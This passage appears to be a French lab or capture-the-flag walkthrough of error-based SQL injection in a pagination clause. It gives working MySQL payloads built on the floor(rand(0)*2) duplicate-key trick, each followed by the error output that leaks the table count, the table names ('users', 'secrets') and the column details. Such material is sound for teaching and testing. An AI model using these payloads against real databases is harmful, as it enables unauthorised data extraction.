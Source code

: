 Récupération du nombre de tables :&#x20;

```sql
lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),(SELECT CAST(COUNT(table_name) AS NCHAR) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database'),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~2~:1' for key 'group_key'
```

Récupération des noms des tables :&#x20;

```sql
lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),(SELECT CAST(table_name AS NCHAR) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 0,1),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~users~:1' for key 'group_key'
```

```sql
lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),(SELECT CAST(table_name AS NCHAR) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'sql_injection_in_pagination_clauses_database' LIMIT 1,1),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~secrets~:1' for key 'group_key'
```

Récupération du nombre de colonnes de la table "secrets" :&#x20;

```sql
lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),(SELECT CAST(COUNT(column_name) AS NCHAR) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets'),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~3~:1' for key 'group_key'
```

Récupération des noms des colonnes :

```sql
lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),(SELECT CAST(column_name AS NCHAR) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'sql_injection_in_pagination_clauses_database' AND table_name = 'secrets' LIMIT 0,1),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~id~:1' for key 'group_key'
```
